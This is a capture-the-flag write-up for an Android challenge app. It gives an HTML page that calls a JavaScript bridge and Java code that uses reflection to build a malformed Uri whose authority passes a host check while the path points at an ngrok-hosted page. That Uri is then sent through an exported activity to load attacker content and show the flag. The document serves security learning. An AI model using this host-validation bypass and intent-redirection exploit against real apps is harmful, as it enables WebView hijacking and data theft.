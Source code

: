 ## Writeup

1. Bypass the root detection and emulator check, if you are using any of these
2. Host one HTML file with the below code
```
<html>

<body>
	
<script type="text/javascript">
app.makeToast();


</script>
</body>



</html>


```
3. Now, Build one more application with the below code and replace the ngrok URL with the URL of the hosted HTML page. you will see flag in the toast and in the logs as well


```
 Uri uri;
        try {
            Class partClass = Class.forName("android.net.Uri$Part");
            Constructor partConstructor = partClass.getDeclaredConstructors()[0];
            partConstructor.setAccessible(true);

            Class pathPartClass = Class.forName("android.net.Uri$PathPart");
            Constructor pathPartConstructor = pathPartClass.getDeclaredConstructors()[0];
            pathPartConstructor.setAccessible(true);

            Class hierarchicalUriClass = Class.forName("android.net.Uri$HierarchicalUri");
            Constructor hierarchicalUriConstructor = hierarchicalUriClass.getDeclaredConstructors()[0];
            hierarchicalUriConstructor.setAccessible(true);

            Object authority = partConstructor.newInstance("winja.nullcon.net", "winja.nullcon.net");
            Object path = pathPartConstructor.newInstance("@e0e2-27-4-63-181.ngrok-free.app/flag.html", "@e0e2-27-4-63-181.ngrok-free.app/flag.html");
            uri = (Uri) hierarchicalUriConstructor.newInstance("https", authority, path, null, null);
        } catch (Exception e) {
            System.out.println("Exception occurred");
            e.printStackTrace();
            throw new RuntimeException(e);
        }

        Intent intent = new Intent();
        intent.setClassName("com.example.androidchall1","com.example.androidchall1.DeepLinkActivity");
        intent.setData(uri);

        Intent intent1 = new Intent();
        intent1.setClassName("com.example.androidchall1","com.example.androidchall1.HandleActivity");
        intent1.putExtra("activity",intent);

        startActivity(intent1);

 ```
